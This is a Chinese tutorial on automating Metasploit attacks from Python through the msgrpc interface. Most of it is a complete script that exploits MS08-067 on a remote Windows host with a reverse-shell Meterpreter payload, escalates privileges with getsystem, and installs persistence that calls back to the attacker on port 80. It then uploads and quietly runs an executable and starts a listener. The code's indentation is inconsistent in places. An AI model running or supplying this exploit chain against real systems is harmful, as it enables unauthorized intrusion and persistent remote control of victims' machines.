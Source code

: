 # Python 版的 Metasploit

## Python 版的 Metasploit

pymsf 模块是 Spiderlabs 实现的一个 python 与 Metasploit 的 msgrpc 通信的 python 模块,但首先你需要先启动 msgrpc 服务,命令如下:

```
load msgrpc Pass=<password> 
```

与 msgrpc 进行通信其实就是与 msfconsole 进行通信，首先你需要创建一个 msfrpc 的类,登录到 msgrpc 服务器并且创建一个虚拟的终端,然后你就可以在你创建的虚拟终端上面执行多个命令的字符串.你可以调用模块的方法与 console.write 执行命令,并且通过"console.read"从虚拟终端上面读取输入的值.这篇文章将演示如何使用 pymsf 模块并且如何开发出一个完整的脚本.

这里有一个函数它创建了一个 msfrpc 实例,登录到 msgrpc 服务器,并且创建了一个虚拟终端.

```
def sploiter(RHOST, LHOST, LPORT, session):
    client = msfrpc.Msfrpc({})
    client.login('msf', '123')
    ress = client.call('console.create')
    console_id = ress['id'] 
```

下一步就是实现把多个字符串发给虚拟终端,通过 console.write 和 console.read 在虚拟终端显示与读取:

```
## Exploit MS08-067 ##
commands = """use exploit/windows/smb/ms08_067_netapi
set PAYLOAD windows/meterpreter/reverse_tcp
set RHOST """+RHOST+"""
set LHOST """+LHOST+"""
set LPORT """+LPORT+"""
set ExitOnSession false
exploit -z
"""
print "[+] Exploiting MS08-067 on: "+RHOST
client.call('console.write',[console_id,commands])
res = client.call('console.read',[console_id])
result = res['data'].split('\n') 
```

上面的这一小段代码创建了一个 MSF 的资源文件,这样你就可以通过"resoucen <pathtofile class="calibre11">"命令去执行指定文件里面中一系列的命令.下面我们将通过"getsystem"命令把这个文件的提权,建立一个后门打开 80 端口来转发.并且永久的运行.最后上传我们的漏洞 exp 并且在命令模式下面悄悄的安装:</pathtofile>

```
# 这个函数会创建一个 MSF .rc 文件
def builder(RHOST, LHOST, LPORT):
     post = open('/tmp/smbpost.rc', 'w')
     bat = open('/tmp/ms08067_install.bat', 'w')

     postcomms = """getsystem
run persistence -S -U -X -i 10 -p 80 -r """+LHOST+"""
cd c:\\
upload /tmp/ms08067_patch.exe c:\\
upload /tmp/ms08067_install.bat c:\\
execute -f ms08067_install.bat
"""
     batcomm = "ms08067_patch.exe /quiet"
     post.write(postcomms); bat.write(batcomm)
     post.close(); bat.close() 
```

通过上面的那段代码,将会创建一个.rc 的文件.通过 msf 模块“post/multi/gather/run_console_rc_file”在当前的 meterpreter 会话中运行生成的文件,并且通过 console.write 命令从虚拟终端写入数据,通过 console.read 命令来回显返回内容:

```
## 运行生成的 exp ##
runPost = """use post/multi/gather/run_console_rc_file
set RESOURCE /tmp/smbpost.rc
set SESSION """+session+"""
exploit
"""
     print "[+] Running post-exploit script on: "+RHOST
     client.call('console.write',[console_id,runPost])
     rres = client.call('console.read',[console_id])
## Setup Listener for presistent connection back over port 80 ##
     sleep(10)
     listen = """use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 80
set LHOST """+LHOST+"""
exploit
"""
print "[+] Setting up listener on: "+LHOST+":80"
client.call('console.write',[console_id,listen])
lres = client.call('console.read',[console_id])
print lres 
```

上面代码中的变量(RHOST, LHOST, LPORT 等)都是通过 optparse 模块从命令终端输入的,完整的脚本托管在 github 上面,有时候你需要知道脚本的生成的地方都是静态地址,不会在其他的目录生成,例如 ms08067 的补丁就会在你的/tmp/目录下面。大家只要知道基础然后对下面的代码进行一定的修改就可以编程一个属于你自己的 msf 自动化攻击脚本,我们建议通过博客里面发表的一些简单的例子出发,然后自己写一个 msf 攻击脚本:

```
import os, msfrpc, optparse, sys, subprocess
from time import sleep

# Function to create the MSF .rc files
def builder(RHOST, LHOST, LPORT):
     post = open('/tmp/smbpost.rc', 'w')
     bat = open('/tmp/ms08067_install.bat', 'w')

     postcomms = """getsystem
run persistence -S -U -X -i 10 -p 80 -r """+LHOST+"""
cd c:\\
upload /tmp/ms08067_patch.exe c:\\
upload /tmp/ms08067_install.bat c:\\
execute -f ms08067_install.bat
"""
     batcomm = "ms08067_patch.exe /quiet"
     post.write(postcomms); bat.write(batcomm)
     post.close(); bat.close()

# Exploits the chain of rc files to exploit MS08-067, setup persistence, and patch
def sploiter(RHOST, LHOST, LPORT, session):
     client = msfrpc.Msfrpc({})
        client.login('msf', '123')
        ress = client.call('console.create')
        console_id = ress['id']

## Exploit MS08-067 ##
     commands = """use exploit/windows/smb/ms08_067_netapi
set PAYLOAD windows/meterpreter/reverse_tcp
set RHOST """+RHOST+"""
set LHOST """+LHOST+"""
set LPORT """+LPORT+"""
set ExitOnSession false
exploit -z
"""
     print "[+] Exploiting MS08-067 on: "+RHOST
     client.call('console.write',[console_id,commands])
     res = client.call('console.read',[console_id])
     result = res['data'].split('\n')

## Run Post-exploit script ##
     runPost = """use post/multi/gather/run_console_rc_file
set RESOURCE /tmp/smbpost.rc
set SESSION """+session+"""
exploit
"""
     print "[+] Running post-exploit script on: "+RHOST
     client.call('console.write',[console_id,runPost])
     rres = client.call('console.read',[console_id])
## Setup Listener for presistent connection back over port 80 ##
     sleep(10)
     listen = """use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 80
set LHOST """+LHOST+"""
exploit
"""
     print "[+] Setting up listener on: "+LHOST+":80"
     client.call('console.write',[console_id,listen])
     lres = client.call('console.read',[console_id])
     print lres

def main():
        parser = optparse.OptionParser(sys.argv[0] +\
        ' -p LPORT -r RHOST -l LHOST')
        parser.add_option('-p', dest='LPORT', type='string', \
        help ='specify a port to listen on')
        parser.add_option('-r', dest='RHOST', type='string', \
        help='Specify a remote host')
        parser.add_option('-l', dest='LHOST', type='string', \
        help='Specify a local host')
     parser.add_option('-s', dest='session', type='string', \
        help ='specify session ID')
     (options, args) = parser.parse_args()
     session=options.session
     RHOST=options.RHOST; LHOST=options.LHOST; LPORT=options.LPORT

     if (RHOST == None) and (LPORT == None) and (LHOST == None):
                print parser.usage
                sys.exit(0)

     builder(RHOST, LHOST, LPORT)
     sploiter(RHOST, LHOST, LPORT, session)

if __name__ == "__main__":
      main() 
```